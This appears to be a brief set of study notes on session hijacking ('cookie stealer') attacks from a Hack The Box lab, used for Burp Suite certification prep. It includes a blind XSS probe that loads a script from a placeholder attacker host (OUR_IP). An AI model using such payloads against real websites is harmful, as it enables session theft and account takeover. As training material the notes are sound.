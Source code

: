 ## Cookie Stealer  

>BSCP Study notes contain many examples of [cookie stealer payloads](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study#dom-based-xss)  

>[Session Hijacking](https://academy.hackthebox.com/module/103/section/1008) aka Cookie Stealer attacks.  

>Target URL: `http://10.129.63.83/hijacking/`  

![cookie-stealer-register](/images/cookie-stealer-register.png)  

>Target response message read, `An Admin will review your registration request.`.  

>Identify vulnerable input field with sample javascript payload: `<script src="http://OUR_IP/username"></script>`  

### Remote JS File Include  

>Using below payload to test how to escape and [load remote JavaScript file](https://academy.hackthebox.com/module/103/section/1008).
